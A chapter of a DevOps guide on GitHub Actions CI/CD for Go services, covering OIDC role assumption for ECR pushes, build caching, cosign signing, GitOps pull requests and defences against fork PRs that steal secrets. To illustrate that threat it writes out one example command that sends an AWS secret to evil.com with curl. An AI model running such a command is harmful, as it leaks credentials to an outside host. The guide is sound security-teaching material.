

# 15.02 — Application CI/CD pipelines

> The application-side CI/CD pipeline for the Bookstore Platform — GitHub
> Actions for the Go services (catalog, orders, payments-worker). Stages
> in real order with real action names; build caching strategy (Go
> modules + Docker buildx GHA cache); fail-fast; branch protection rules
> and required-vs-optional checks; the **"CI ate my repo" footgun**
> (untrusted-PR-with-secrets) and how the workflows defeat it; GitHub
> Actions **OIDC trust for ECR push** (no static AWS keys, ever);
> branch-environment separation. Walks the reader stage-by-stage through
> [`examples/bookstore-platform/ci/.github-workflows-catalog.yml`](../examples/bookstore-platform/ci/.github-workflows-catalog.yml).
> Deepens Part 07 ch.03 (which was generic, single-runtime, ghcr.io) by
> adding multi-arch, ECR + OIDC, integration test suites, the GitOps PR
> seam (two-repo), and the security-side rules that make a multi-service,
> multi-environment, multi-team CI safe at the platform level.

**Estimated time:** ~30 min read · ~90 min hands-on
**Prerequisites:** [Part 07 ch.03](../07-delivery/03-cicd-pipeline.md):
generic CI you'll now deepen for multi-service ECR · [Part 15
ch.01](./01-pr-to-production-lifecycle.md): loop stages that frame the
pipeline · [Part 14
ch.07](../14-eks-in-production-a-to-z/07-infrastructure-cicd-and-drift.md):
sibling infra CI/CD via OIDC

**You'll know after this:** • author a GitHub Actions workflow with build → test → scan → multi-arch image push to ECR in real stage order · • configure GitHub Actions OIDC trust for ECR push (no static AWS keys, ever) · • design build caching for Go modules + Docker buildx GHA cache to keep CI short · • defeat the "CI ate my repo" footgun (untrusted-PR-with-secrets) with `pull_request_target` discipline · • configure branch protection + required checks that map to environment promotion gates

<!-- tags: app-cicd, ci-cd, supply-chain, gitops, eks -->

## Why this exists

[ch.15.01](01-pr-to-production-lifecycle.md) drew the eight-stage loop;
stages 1–4 (commit, PR, CI, review/merge) and the front half of stage 5
(GitOps PR opened) are the **application CI pipeline**. Part 07 ch.03
already shipped a generic GitHub Actions workflow for the v1 Bookstore —
GHCR push, matrix over four services, the cosign keyless flow. That
chapter's job was teaching the *shape* of the pipeline.

This chapter's job is the production deepening. Three concrete gaps
between the v1 workflow and a real platform CI:

1. **Cloud-specific push paths** — the platform pushes to **ECR**, not
   GHCR, via short-lived OIDC role assumption (no static `AWS_ACCESS_KEY`
   in repository secrets). Part 14 ch.07 set up the same OIDC trust for
   Terraform's `apply`; application CI now consumes it.

2. **Per-service integration test suites** — the v1 services ship no
   tests; the v2 services have real test profiles (catalog reads a DB,
   orders writes a DB and publishes events, payments-worker consumes
   events and calls a payment-provider stub). Each workflow brings up
   the dependencies as GitHub Actions service containers and enforces a
   coverage gate calibrated to the service's risk profile.

3. **The GitOps-PR seam, in detail** — Part 07 ch.03 ended with `kustomize
   edit set image` + `git commit` on the same repo. The platform CI/CD
   pipeline opens a **PR against a separate GitOps repo** (the trust
   direction from ch.15.01); that PR's `body:` carries the cosign
   identity for human reviewers; the dev overlay PR auto-merges, the
   staging/prod overlay PRs require human review.

The chapter also names the **two pipeline-shaped security failures** Part
15 cares about most:

- **The "CI ate my repo" footgun** — an untrusted PR (from a fork or an
  external contributor) running a workflow that has access to secrets. A
  single `echo "$AWS_SECRET" > /tmp/x; curl evil.com -d @/tmp/x` step
  exfiltrates every secret the workflow can see. The workflows in
  [`examples/bookstore-platform/ci/`](../examples/bookstore-platform/ci/)
  prevent it with an environment, a narrow token and no
  `pull_request_target`; this chapter shows how (path filters, the
  `if: github.event_name == 'push'` convenience, the
  `pull_request_target` *non*-pattern).

- **Mutable action versions**: a workflow that uses `@v3` runs whatever that
  tag points at on its next run. This chapter pins every third-party action to
  a commit SHA, with the release in a comment, and explains why under How it
  works.

This is the *Building Platform Services* concern from *Production
Kubernetes* ch.11 made specific to GitHub Actions + ECR + cosign; the
*Continuous Delivery* discipline from ch.15.01 turned into a real,
runnable workflow file.

## Mental model

**Application CI is a DAG of evidence-producing gates; its last step is
opening a PR. The platform's invariants are: trust direction, secret
scope, branch-environment mapping, and fail-fast.**

- **Trust direction (the one rule from ch.15.01).** CI **never** holds a
  cluster credential. CI gets:
  - ECR push permissions (via OIDC role assumption — short-lived; no
    static keys)
  - GitOps repo PR-write permissions (via a fine-grained PAT or GitHub
    App token, scoped to `contents: write` + `pull-requests: write` on
    *only* that repo)
  CI does **not** get: a `kubeconfig`, Argo CD admin tokens, Vault
  tokens, cluster service-account JWTs. Compromising CI compromises the
  registry + the GitOps repo's PR queue (bad enough — see "CI ate my
  repo" below), but **does not** give an attacker arbitrary cluster
  control. The cluster's apply rights belong to Argo CD's controller
  alone.

- **The DAG of evidence (stages 1–5 from ch.15.01).** Each stage's
  output is the next stage's input, and each output is queryable
  evidence:

  ```
  lint-test  ──►  integration-test  ──►  scan  ──►  build-sign-push  ──►  update-gitops-pr
   ↓             ↓                      ↓          ↓                     ↓
   coverage     test artefact           Trivy      digest + cosign       PR + body
   profile      (DB+broker logs)        report     cert + Rekor log      with cert
  ```

  The DAG's gates fire in order: lint failures stop before integration
  spends 5 minutes; integration failures stop before scan; HIGH/CRITICAL
  CVEs stop before signing. **Fail-fast** is not a slogan; it is the
  contract that lets the pipeline scale (a dozen services × multiple
  PRs/day) without blocking on shared infrastructure.

- **Per-service workflows, not one mega-workflow.** Each service in
  [`examples/bookstore-platform/ci/`](../examples/bookstore-platform/ci/)
  is one workflow file with **path filters** (`paths:
  ['app/catalog/**']`). A PR that touches only `app/orders/` does **not**
  run the catalog workflow. This is the platform-scale alternative to
  the v1 matrix-of-services pattern: per-service workflows isolate
  failure (one service's red workflow doesn't block another's merge),
  scale linearly (add a service = add a workflow file, no central
  re-wiring), and let each service tune its own test profile (catalog's
  70%-coverage vs payments-worker's 80%).

- **Coverage gates are calibrated to *risk*, not vibe.** catalog (read-
  only): no coverage gate, race detector on. orders (writes orders): 70%
  on `main` only — PRs are informational. payments-worker (money): 80%
  on every event, including PRs. The asymmetry encodes a real product
  decision: a money-handler bug is unrecoverable; a catalog read bug is
  a refresh. Cargo-culting one threshold across services trains
  developers to ignore it.

- **Branch-environment mapping is a *config*, not a workflow change.**
  `main` → `dev` overlay (auto-merge). Staging and prod do not get a build
  of their own: a promotion PR moves the digest that `main` built into the
  next overlay ([15.04](04-multi-environment-promotion.md)). Part 15 ch.04 shows the ApplicationSet that makes the
  env-overlay mapping declarative; this
  chapter wires the `main` → `dev` path so the rest is a configuration
  change.

- **The "CI ate my repo" footgun is blocked by an environment, not by an
  `if:`.** Four layers of defence, strongest first:
  1. The `bookstore-publish` environment on the build-sign-push and
     update-gitops-pr jobs. It holds the AWS role ARN and the GitOps token,
     requires a reviewer, and allows deployments from `main` only. A job that
     names an environment gets that environment's secrets and an OIDC `sub`
     claim that contains the environment name. A workflow on another branch
     fails before its first step, even if its copy of the workflow file was
     edited.
  2. Fork PRs get no secrets and a read-only `GITHUB_TOKEN`, from GitHub
     itself ([security hardening guide](https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions)).
  3. The `if: github.event_name == 'push' && github.ref == 'refs/heads/main'`
     guard on those jobs. It is a convenience. On a `pull_request` run the
     workflow file is the merge commit's copy, so a PR can edit the `if:`
     itself. It keeps fork PRs out in practice; the environment is what
     stops same-repository branches.
  4. `permissions:` is `contents: read` at workflow level, and no job widens
     it for anything it does not need. No `pull_request_target` trigger
     appears anywhere: it runs in the base branch's context with secrets, and
     the chapter's workflows do not use it for build, test or push.

The trap to keep in view: a CI that *gets it 90% right* is a CI that
ships an unsigned image or one wrong AWS-key environment, and the
fragility is invisible until the moment it matters. The discipline
(stated plainly): **CI's job is to produce evidence and a commit, and
*not* to hold cluster credentials, and *not* to run untrusted code with
secrets**. If those three rules hold, the rest is performance tuning.

## Threats and controls

Four threats are specific to application CI. The rest of the Part covers the
operations around them.

| Threat | Control taught here | Goes deeper |
|---|---|---|
| A fork PR runs untrusted code next to your secrets | Fork PRs get no secrets and a read-only token ([GitHub's hardening guide](https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions)). Signing, push and the GitOps PR run only on a push to `main`. No `pull_request_target` | [07.03](../07-delivery/03-cicd-pipeline.md) |
| A long-lived cloud key sits in the repo | OIDC: the job trades a short-lived token for role credentials | [14.07](../14-eks-in-production-a-to-z/07-infrastructure-cicd-and-drift.md) |
| A token can write more than its job needs | `contents: read` at workflow level. Each job asks for more in its own `permissions:`. The GitOps PAT covers one repo | [07.03](../07-delivery/03-cicd-pipeline.md) |
| A tag on a third-party action moves to malicious code | Every third-party action pinned to a commit SHA, with the release in a comment | [05.03](../05-security/03-supply-chain.md), [07.03](../07-delivery/03-cicd-pipeline.md) |

## Diagrams

### The Bookstore catalog workflow — five jobs, real action names (Mermaid)

The
[`examples/bookstore-platform/ci/.github-workflows-catalog.yml`](../examples/bookstore-platform/ci/.github-workflows-catalog.yml)
DAG. Solid arrows are `needs:`; dashed arrows are the *outputs* each job
produces and the next consumes. The dotted boundary is the **CI/CD seam**
(ch.15.01) — the last node is a PR, not a deploy.



### Branch-environment mapping (ASCII)

```
 EVENT                    BRANCH/REF                        OVERLAY    REVIEW
 ───────────────────────────────────────────────────────────────────────────────
 pull_request -> main     any feature/* branch              (none -    PR review
                                                            no push)   (1+ approver)
 push (merged PR)         refs/heads/main                   dev        auto-merge
 promotion PR (GitOps)    no rebuild: the same digest      staging    1 reviewer
                          moves to the next overlay        prod       2 reviewers
                          *Part 15 ch.04                                + on-call
 ───────────────────────────────────────────────────────────────────────────────
 The workflow's `if:` (a convenience) and its environment (the boundary):
   build-sign-push:     if: github.event_name == 'push' && github.ref == 'refs/heads/main'
                        environment: bookstore-publish   (main only, one reviewer)

 Fork PRs and same-repository branches, and what each can reach:
   - fork PR -> ONLY lint-test + integration-test + scan run
   - fork PR -> NO secrets (GitHub omits them) and a read-only token
   - same-repository branch -> it can edit the workflow file, but the
     environment's branch rule refuses the publish job unless the run is on main
   - merged PR (on main) -> the FULL pipeline runs (push + sign + PR)
```

## Hands-on with the Bookstore Platform

**Assumed working directory: the guide repo root (`full-guide/`).** This
chapter's hands-on is reading
[`examples/bookstore-platform/ci/.github-workflows-catalog.yml`](../examples/bookstore-platform/ci/.github-workflows-catalog.yml)
job-by-job, then running the *locally-reproducible* pieces of the
pipeline (the same idea as Part 07 ch.03 — what doesn't need OIDC or ECR
is shown runnable). The chapter is deliberately one workflow walk-through;
the orders and payments-worker workflows differ only in the test
profile, and their differences are summarised at the end.

### 0. What you can run locally (no OIDC, no ECR)

Mirror of Part 07 ch.03's local approximation, run from the repo root.
This is the **front half of the DAG** (stages 1–3); the back half needs
real cloud credentials.

```sh
# Stage 1 mirror — lint-test, locally:
cd examples/bookstore-platform/app/catalog        # the catalog service source
go mod download
go vet ./...
golangci-lint run --timeout=5m ./...
go test -short -race -count=1 -coverpkg=./... -coverprofile=coverage.out ./...
go tool cover -func=coverage.out | tail -1        # the same number CI prints

# Stage 2 mirror: the Postgres contract test. testcontainers starts its own
# Postgres, so Docker must be running on your machine:
go test -race -count=1 -timeout=5m -run TestPostgresRepo_Contract ./...

# Stage 3 mirror — Trivy scan, locally:
trivy fs --severity HIGH,CRITICAL --exit-code 1 --ignore-unfixed examples/bookstore-platform/app/catalog
# CI runs the same flags on Trivy v0.76.1. A clean local scan means a clean
# CI scan, modulo CVE-database drift since Trivy publishes daily.
```

This is stages 1–3 verbatim. Stage 4 (build-sign-push) and stage 5
(update-gitops-pr) need ECR, OIDC and the GitOps repo token, so they run only
in CI. The [`sbom-and-sign.sh`](../examples/bookstore-platform/ci/sbom-and-sign.sh)
helper in the examples signs with the operator's own login, which is a
different identity from the workflow's ([15.03](03-image-signing-and-provenance.md)).
This chapter does not run it. Read it to see the steps, and verify with the
Quick Reference instead.

### 1. The workflow, job by job

Open
[`examples/bookstore-platform/ci/.github-workflows-catalog.yml`](../examples/bookstore-platform/ci/.github-workflows-catalog.yml).
Five jobs, wired by `needs:`. Each is a "stage" from ch.15.01.

**Job 1 — `lint-test`** (`runs-on: ubuntu-latest`). Path-filtered to
`app/catalog/**`. Sets up Go from the module's own `go` line
(`go-version-file`), so the toolchain cannot drift from `go.mod`, with the
module cache keyed by `go.sum`. Runs `go vet`, `golangci-lint` v2.15.0 (via
the official action), then `go test -short -race -count=1 -coverpkg=./...
-coverprofile=coverage.out`. `-short` skips the Postgres contract test, which
job 2 runs. The
`-coverpkg=./...` is important: by default Go counts coverage only in the
test's *own* package, which under-reports for a service with cross-
package tests. Uploads `coverage.out` as an artifact. **No cloud
credentials, no registry access.** This job runs on **every** PR and
**every** push: the fail-fast gate. Permissions are `contents: read`. The
catalog source it builds is in this guide's examples tree.

**Job 2: `integration-test`** (`needs: lint-test`). Runs
`TestPostgresRepo_Contract`. The test starts Postgres 16 with testcontainers,
the repository applies the catalog's migration when it starts, and the
contract runs against that database. The job needs Docker on the runner,
which GitHub-hosted Ubuntu runners provide, and no service container.
Orders and payments-worker declare Postgres and RabbitMQ **service
containers** instead. GitHub runs each one as a real container on the
runner, and the `health-cmd` makes the runner wait for readiness before the
first step. Both images are pinned by digest. Those two services have no
integration tests in this guide yet, so their job passes with nothing to run
until one exists. **No cloud credentials.**

**Job 3 — `scan`** (`runs-on: ubuntu-latest`, `needs: integration-test`).
Trivy filesystem scan over the service's directory, with Trivy pinned to
v0.76.1 (`version`, the pin the guide's own scan workflow uses), `severity:
HIGH,CRITICAL`, `exit-code: '1'`, and `ignore-unfixed: true`.
`ignore-unfixed: true` is the deliberate choice (Part 07 ch.03 explains
the trade-off): CVEs with no upstream fix can't be remediated by a
rebuild, so gating on them is a false gate; the mitigation is *continuous
re-scanning* of published images (Part 05 ch.03). The job uploads the
report as an artifact for human inspection on failures. **No cloud
credentials yet.**

**Job 4 — `build-sign-push`** (`runs-on: ubuntu-latest`, `needs: scan`,
`if: github.event_name == 'push' && github.ref == 'refs/heads/main'`).
**This is the first job that needs cloud credentials. It runs in the
`bookstore-publish` environment, which is the boundary; the `if:` is a
convenience** (the footgun section below explains why). A fork PR never
reaches this job. On a merged-to-`main` push:

1. `aws-actions/configure-aws-credentials` with `role-to-assume:
   ${{ secrets.AWS_ROLE_ARN_ECR }}` and `audience: sts.amazonaws.com` —
   GitHub mints a short-lived JWT (the `id-token: write` permission
   on this job), STS exchanges it for role credentials that expire with the
   role session (one hour by default, see How it works). **No long-lived AWS
   key is ever stored in the repo.**
2. `aws-actions/amazon-ecr-login`, pinned by SHA (v2.1.7), logs Docker into
   ECR with those credentials.
3. `docker/setup-qemu-action` + `docker/setup-buildx-action` set
   up multi-arch builds. QEMU emulates arm64 on the amd64 runner — slow
   but reliable; for high-throughput builds, use a self-hosted arm64
   runner (Graviton) and skip QEMU. Part 14 ch.09 covers the Graviton
   migration; the workflow is **already Graviton-
   ready** because it builds multi-arch.
4. `sigstore/cosign-installer` installs the cosign CLI at the version named by
   `cosign-release` (v3.1.4, as in
   [07.03](../07-delivery/03-cicd-pipeline.md)).
   `anchore/sbom-action/download-syft` installs syft at `syft-version`
   (v1.55.0).
5. `docker/build-push-action` builds the multi-stage Dockerfile,
   pushes the multi-arch manifest to ECR, tagged `sha-<COMMIT>` AND
   `latest-main`. The action exposes the manifest digest as
   `steps.build.outputs.digest`. `provenance: false` and
   `sbom: false` turn off BuildKit's own attestations. They are unsigned, so
   the chapter keeps one signed form for each: the CycloneDX SBOM in steps 7
   and 9, and the SLSA provenance in step 10.
6. **Trivy again** — this time against the *pushed digest*
   (`image-ref: ...@${{ steps.build.outputs.digest }}`). This catches
   CVEs in the base image (distroless still has packages — `glibc`,
   `tzdata` — that may have published CVEs after the image was last
   refreshed). Same `--exit-code 1` gate. The two scans complement: the
   filesystem scan catches Go-module CVEs, the image scan catches
   base-layer CVEs.
7. `syft <IMAGE>@<DIGEST> -o cyclonedx-json` writes a CycloneDX SBOM for the
   digest.
8. `cosign sign --yes --recursive <IMAGE>@<DIGEST>`: **keyless**.
   `--recursive` signs each platform image in the index, not only the index
   (cosign's own help text). [15.03](03-image-signing-and-provenance.md)
   unpacks this. In short: the runner uses its `id-token` JWT to authenticate
   to Sigstore Fulcio, which issues a ~10-minute X.509 cert
   bound to *this workflow's identity* (the cert's SAN is
   `https://github.com/GITHUB_ORG/REPO/.github/workflows/catalog.yml@refs/heads/main`
   — a Kyverno `verifyImages` rule can match exactly that). The cert +
   signature + a Rekor entry are stored; **no long-lived signing key is
   stored**.
9. `cosign attest --type cyclonedx --predicate <SBOM> <IMAGE>@<DIGEST>`:
   the SBOM is bound to the digest as a cosign attestation, so a
   consumer can `cosign verify-attestation` and trust the SBOM via the
   signature chain.
10. `actions/attest-build-provenance`, pinned by SHA (the pin 07.03 uses, v4.2.2),
    writes a SLSA provenance statement for the digest to GitHub's attestation
    store, signed with the workflow identity. [15.03](03-image-signing-and-provenance.md)
    verifies it with `gh attestation verify`. The job needs `attestations:
    write` and `id-token: write`.
11. The digest is written to `digest.txt` and uploaded as an artifact
    `digest-catalog`. Per-leg fan-in (Part 07 ch.03's matrix-fan-in
    note): a matrix-job's `outputs:` collapses to the last-finishing
    leg, so artifact-per-leg is the correct pattern.

**Job 5 — `update-gitops-pr`** (`runs-on: ubuntu-latest`,
`needs: build-sign-push`, the same `if:` and the same `bookstore-publish`
environment, because the GitOps token lives there). The CI/CD seam.

1. `actions/checkout` with `repository: ${{ vars.GITOPS_REPO }}`:
   checks out the **GitOps repo**, not the app repo. `token:
   ${{ secrets.GITOPS_PR_TOKEN }}` (a fine-grained PAT or GitHub App
   token scoped to `contents: write` + `pull-requests: write` on the
   GitOps repo *only*). `persist-credentials: false` keeps that token out of
   the checkout's `.git/config`.
2. `actions/download-artifact` for `digest-catalog`.
3. Install **pinned** kustomize (`v5.8.1`, the version kubectl v1.37.2 embeds)
   from its release tarball, and check the tarball's SHA-256 against the
   release's `checksums.txt` before extracting. Never the
   `install_kustomize.sh` master script (Part 07 ch.03's anti-pattern
   warning).
4. Validate the digest format (`grep '^sha256:'`) — refuse to write an
   empty or malformed digest. The shell guard catches the failure mode
   where a previous job silently produced an empty artifact, which would
   otherwise commit a broken image ref into the GitOps repo (a
   `bookstore/catalog@` with no digest = unsearchable, unfetchable, and
   `kubectl apply` would only fail at admission, after Argo CD synced
   it).
5. Edit only the dev pins, in `gitops/kustomize/overlays/dev/images/`, a
   Kustomize Component that holds nothing but the `images:` list.
   `kustomize edit` rewrites the whole file it touches, so the job checks the
   result: only that one file may change, at most eight lines may change, and
   `kustomize build` of the dev overlay must render the new reference. A larger
   diff fails the job. This is the layout 15.04 uses for prod, and the layout
   the release workflow in this repository uses.
6. `peter-evans/create-pull-request` (v7.0.11) opens a PR on a branch
   `bump/catalog-<SHA>`. The PR body includes the source workflow run
   ID and the commit SHA, so a reviewer can trace back to the cosign
   identity. The PR is opened with a PAT or App token, not `GITHUB_TOKEN`: a
   PR that `GITHUB_TOKEN` opens starts no checks, so the required checks never
   run ([07.03](../07-delivery/03-cicd-pipeline.md) shows it, and GitHub's
   [token documentation](https://docs.github.com/en/actions/security-for-github-actions/security-guides/automatic-token-authentication)
   gives the rule). **No auto-merge
   enabled here**. That is a branch-protection
   *rule* in the GitOps repo, not a workflow choice. The dev overlay PR
   may auto-merge if branch protection allows; staging/prod overlay PRs
   require human review ([15.04](04-multi-environment-promotion.md)).

The five jobs are the eight stages from ch.15.01's loop, stages 3–5,
mapped 1:1 onto a runnable workflow file.

### 2. The orders and payments-worker workflows — what differs

The
[`.github-workflows-orders.yml`](../examples/bookstore-platform/ci/.github-workflows-orders.yml)
and
[`.github-workflows-payments-worker.yml`](../examples/bookstore-platform/ci/.github-workflows-payments-worker.yml)
files differ from catalog only in the test profile, calibrated to risk:

| Aspect | catalog | orders | payments-worker |
| --- | --- | --- | --- |
| Test profile | unit + Postgres IT | + RabbitMQ IT | + RabbitMQ IT + provider stub |
| Coverage gate | none | 70%, main only | 80%, every event |
| Race detector | unit + IT | unit + IT | unit + IT (concurrent consumer) |
| Integration timeout | 5m | 8m | 10m |

The rationale: catalog is read-only (a bug = a refresh), orders writes to
DB and publishes events (a bug = an inconsistent order, recoverable),
payments-worker handles money (a bug = a double-charge, unrecoverable).
The coverage gates are calibrated, not cargo-culted; the race detector is
on in the integration suite of payments-worker because its consumer pool
runs concurrent goroutines and a race here doubles a charge.

### 3. The "CI ate my repo" footgun, demonstrated by negation

Open the catalog workflow at the top:

```yaml
permissions:
  contents: read
```

This is the *workflow-level* permission set, read-only. A fork PR's workflow
runs
with this set, **minus** any secrets (GitHub omits secrets for fork PRs
by default). The `if: github.event_name == 'push' && github.ref ==
'refs/heads/main'` guard on `build-sign-push` and `update-gitops-pr`
means: a PR that adds a step like `run: printenv` could reach the job's
secrets *if the PR's copy of the workflow is the one that runs*, and on a
`pull_request` run it is. So the `if:` alone is not a boundary. The boundary
is the `bookstore-publish` environment: its required reviewer and main-only
deployment rule stop the job before any step runs, whatever the file says.
Narrow workflow permissions and the environment are the structural defence. The two anti-patterns
to **never** use:

```yaml
# DO NOT use pull_request_target for build/test — it runs in the BASE
# branch's context, has access to secrets, and is the single most common
# fork-PR-exfiltrates-credentials vector. Use it only for non-mutating
# operations like label-on-PR.
on:
  pull_request_target:        # <-- DANGER

# DO NOT widen workflow-level permissions to write — set them on the JOB
# that needs them, not the workflow:
permissions:
  contents: write             # <-- workflow-wide write; bad
  packages: write             # <-- workflow-wide write; bad
```

The catalog workflow does neither. ch.15.03 shows the cosign cert that
makes the safe pattern *enforceable at admission* via Kyverno
`verifyImages`.

## How it works under the hood

- **OIDC trust between GitHub and AWS.** The
  `aws-actions/configure-aws-credentials` step works because of a
  trust relationship configured *once* in AWS (Part 14 ch.07's territory):
  an IAM OIDC identity provider points at
  `token.actions.githubusercontent.com`, and an IAM role
  (`github-actions-ecr-catalog`) has a trust policy that admits a GitHub
  Actions JWT only when the `sub` claim names the environment, the `ref` is
  `main` and the audience is STS:

  ```json
  "Condition": {
    "StringEquals": {
      "token.actions.githubusercontent.com:aud": "sts.amazonaws.com",
      "token.actions.githubusercontent.com:sub": "repo:GITHUB_ORG/bookstore:environment:bookstore-publish",
      "token.actions.githubusercontent.com:ref": "refs/heads/main"
    }
  }
  ```

  A job that names an environment gets a `sub` with the environment in it
  and no branch, so a trust policy that still matches
  `repo:GITHUB_ORG/bookstore:ref:refs/heads/main` never matches the publish
  job. The `ref` condition and the environment's deployment rule are two
  checks on the branch. The [GitHub OIDC reference](https://docs.github.com/en/actions/deployment/security-hardening-your-deployments/about-security-hardening-with-openid-connect)
  lists the claims. When the workflow runs:
  1. GitHub mints a short-lived JWT signed by their key (the
     `id-token: write` permission unlocks this).
  2. The action exchanges the JWT at STS for role credentials.
  3. The credentials expire when the role session ends, whether the workflow
     finishes or not. The action defaults to one hour (`role-duration-seconds`
     accepts 15 minutes to 12 hours). A leak is bounded in time.
  No `AWS_ACCESS_KEY_ID` is ever in a GitHub secret. The whole pattern
  ports to GCP Workload Identity Federation and Azure OIDC Federation
  with one-line action changes; the model is identical.

- **The buildx cache and the Go cache are different things.** The Go
  cache (module + build cache) is keyed by `go.sum` via
  `actions/setup-go`'s `cache: true`. A cache *hit* skips
  `go mod download` and reuses compiled packages (saves 30s+ per run).
  The Buildx cache (`cache-from: type=gha`) is keyed by job-scope
  (`scope: catalog`) and reuses Docker *layers* across runs — a cache
  hit means the multi-stage build's `go build` step doesn't re-run, and
  the `COPY --from=builder` only re-emits changed layers. Both caches
  are capped at GitHub's default of 10 GB per repository, and an entry not
  read for seven days is removed. A miss only makes the build slower; the
  workflow still passes.

- **Service containers are real containers on the runner, not in-
  process mocks.** `services: postgres:` brings up the postgres image as
  a real Docker container on the GitHub-hosted runner before the job's
  steps execute; the runner's network namespace makes
  `localhost:5432` route to it. The `health-cmd` makes the runner *wait*
  for `pg_isready` before running the first step (without it, the first
  test races the container startup and can fail on a cold runner). Service
  containers don't persist between jobs; each job
  brings up its own.

- **`docker/build-push-action` outputs the digest because the registry
  computes it on push.** A push uploads layer blobs + a manifest; the
  registry hashes the *manifest* and returns
  `sha256:HASH`. The action exposes this as
  `steps.build.outputs.digest`. The digest is **content-addressable**:
  if the bytes change, the digest changes; if the digest is stable, the
  bytes are stable. cosign signs *the string* `sha256:HASH`; kubelet
  pulling `<IMAGE>@sha256:HASH` re-hashes the pulled bytes and refuses
  to start the container if they don't match. This is the property that
  makes pinning by digest *mean* something — a tag is just a pointer
  that anyone with push access can move.

- **`peter-evans/create-pull-request` reuses an existing PR if the
  branch already exists.** The action computes a branch name
  (`bump/catalog-<SHA>`); if a PR on that branch is already open, it
  pushes new commits to it instead of opening a duplicate. This matters
  when CI re-runs (e.g. someone re-runs the workflow after a flaky
  scan): the second run updates the existing PR rather than spawning
  N duplicates that humans then have to close. **Idempotency by
  branch-name** is the implementation detail; without it, the PR
  queue would be unusable at scale.

- **Branch protection rules on the GitOps repo are the security
  boundary for environment promotion.** The workflow opens PRs; the
  GitOps repo's branch protection decides who can merge them. Standard
  pattern:
    - dev overlay PRs: auto-merge enabled, no required reviewers.
    - staging overlay PRs: one required reviewer (the team owning the
      service).
    - prod overlay PRs: two required reviewers (the team + a platform
      engineer).
  This workflow opens only the dev PR. Staging and prod are promotion PRs
  that move the same digest with no rebuild ([15.04](04-multi-environment-promotion.md)).
  Nothing automated checks the staging soak yet; 15.04 explains the gap.

- **The path filter is a runner-minutes optimisation, not a security
  boundary.** `paths: ['app/catalog/**']` makes the catalog workflow
  *skip* when only `app/orders/` changes. It is a cost optimisation —
  GitHub-hosted runner minutes are not free — and a focus optimisation
  (PR reviewers only see relevant CI noise). It is **not** a security
  boundary: a malicious PR can be crafted to match any path filter,
  and changes to the workflow file itself bypass it. The security
  boundary remains the `if: github.event_name == 'push' && ref ==
  refs/heads/main` guard on secret-needing jobs.

- **Pin every action to a commit SHA.** A tag is a pointer its owner can
  move. In 2025, versions of `tj-actions/changed-files` through 45.0.7 let
  remote attackers read secrets from workflow logs (CVE-2025-30066,
  [GHSA-mrrh-fwg8-r2c3](https://github.com/advisories/GHSA-mrrh-fwg8-r2c3)).
  In March 2026, 76 of the 77 version tags of `aquasecurity/trivy-action`
  were force-pushed to malicious commits
  ([GHSA-69fq-xp46-6x23](https://github.com/advisories/GHSA-69fq-xp46-6x23),
  CVE-2026-33634). A SHA names the code that runs, so the code that runs is
  the code you reviewed. Dependabot can propose SHA bumps as reviewable pull
  requests, with the release named in the comment.
- **Scope secrets to environments.** The publish jobs here use the
  `bookstore-publish` environment, with a required reviewer, a deployment
  rule that allows `main` only, and the role ARN and the GitOps token inside
  it, so a development workflow never sees them. The Terraform apply workflow in
  [14.07](../14-eks-in-production-a-to-z/07-infrastructure-cicd-and-drift.md)
  uses the same pattern.
- **Run publish jobs on runners you control, when the risk warrants it.**
  The publish job holds the OIDC session and the GitOps token while it runs.
  Self-hosted runners in a controlled network narrow who can reach that
  memory. The cost is a runner pool to operate.
- **Review the workflow file like code.** A change to `.github/workflows/`
  decides what every other change can do. Give that path a CODEOWNERS entry
  for the platform team, with the same review as application code.

## Production notes

> **In production: alert on workflow *infrastructure* failures, not just
> test failures.** A workflow that fails at "Configure AWS credentials" has
> an infrastructure problem: the OIDC provider drifted, the role's trust
> policy changed, or the IAM permissions were tightened. Send the failure
> webhook to PagerDuty ([15.10](10-incident-response-and-on-call.md)) so a
> sustained credentials failure pages the platform team, while a failed test
> notifies the service team.

> **In production: keep PR runs short and main runs strict.** PR runs must
> finish before a developer switches away, so lint, unit and scan run on
> every PR. Main runs can be slower because they happen on merge. If the
> integration suite outgrows the PR budget, move its heavy part to a
> scheduled `nightly` workflow.

## Quick Reference

```sh
# Inspect the catalog workflow (the canonical pipeline of this Part):
cat examples/bookstore-platform/ci/.github-workflows-catalog.yml

# Run the locally-reproducible stages (no OIDC, no ECR):
( cd examples/bookstore-platform/app/catalog && \
    go mod download && go vet ./... && \
    go test -short -race -count=1 -coverpkg=./... ./... )
trivy fs --severity HIGH,CRITICAL --exit-code 1 --ignore-unfixed \
  examples/bookstore-platform/app/catalog

# The Postgres contract test (needs Docker for testcontainers):
( cd examples/bookstore-platform/app/catalog && \
    go test -race -count=1 -run TestPostgresRepo_Contract ./... )

# View the workflow runs (when CI is wired):
gh -R GITHUB_ORG/bookstore run list --workflow catalog.yml
gh -R GITHUB_ORG/bookstore run view  WORKFLOW_RUN_ID --log

# Inspect the GitOps PRs the workflow opens:
gh -R GITHUB_ORG/bookstore-gitops pr list --search 'bump:'
gh -R GITHUB_ORG/bookstore-gitops pr view  PR_NUM

# Verify a published signature. Never sign from a laptop (15.03). Name the identity you expect:
cosign verify \
  --certificate-identity 'https://github.com/GITHUB_ORG/bookstore/.github/workflows/catalog.yml@refs/heads/main' \
  --certificate-oidc-issuer https://token.actions.githubusercontent.com \
  'AWS_ACCOUNT_ID.dkr.ecr.AWS_REGION.amazonaws.com/bookstore/catalog@sha256:DIGEST-HEX'
```

Minimal workflow skeleton (the shape; full file in
[`examples/bookstore-platform/ci/`](../examples/bookstore-platform/ci/)).
Every action is pinned, and each job asks for only the scopes it needs:

```yaml
name: <SERVICE>-ci
on:
  pull_request: { paths: ['app/<SERVICE>/**'] }
